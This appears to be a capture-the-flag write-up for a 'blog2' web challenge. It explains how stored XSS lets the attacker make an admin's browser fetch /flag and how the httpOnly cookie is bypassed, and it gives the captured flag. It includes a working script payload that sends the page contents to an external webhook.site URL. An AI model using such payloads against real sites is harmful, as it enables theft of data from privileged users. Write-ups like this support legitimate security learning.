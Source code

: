# blog2
Author: solli#0387


In this challenge we are provided an identical webpage as the `blog` challenge. On this site we know there is an XSS vulnerability in the content field of each blog post. For this reason getting XSS with ex. `<script>alert(1);</script>` works fine as a PoC for XSS on the site.


However, we are provided an endpoint in the challenge description of `/flag`, when requesting this site with out own user we are proveded a message of `Only for the admin`. We are also told that the admin checks the site quite often. One would initially assume that the challenge would be to write a cookie stealer and get the cookie of the admin, however based upon the protections set on our own cookie this would not be possilbe. Here we have the flag `httpOnly` flag set, which means that we cannot access the flag value directly. However, the cookies are still used in requests within the same site as long as it is the admins browser that makes the request. The challenge should now be clear, and we have to get the admin to request this endpoint, and send the conent of this page somewhere.


To do this we can craft an AJAX query, which will request `/flag` and send the content of this site to a site we control. We'll add the content to the end of the url as a parameter, and hope that there is only a simple string on the site and not an image or something that would be to large for the URL. The AJAX query will trigger when we ourself also trigger the XSS on the page, but then the parameter will be the same message as we would see normally of `Only for hte admin`, but it is still helpful to see as it means the XSS is working. 


The following snippet will do what is described above. Note that the cookies are specified nowhere, as they are used by default. The request is pointing to `webhook.site`, which is a useful site to listen for requests instead of exposing our own webserver.

```js
<script>

function loadDoc() {
  const xhttp = new XMLHttpRequest();
  xhttp.onload = function() {
        xhttp.open("GET", "https://webhook.site/80d51203-cbf5-4e58-a018-5c90aff3c67a/?"+this.responseText);
    xhttp.send();
  }
  xhttp.open("GET", "/flag");
  xhttp.send();
}

loadDoc();

</script>
```


Flag: `EPT{c4us3_sl33p_i5_th3_c0u5in_0f_d34th}`

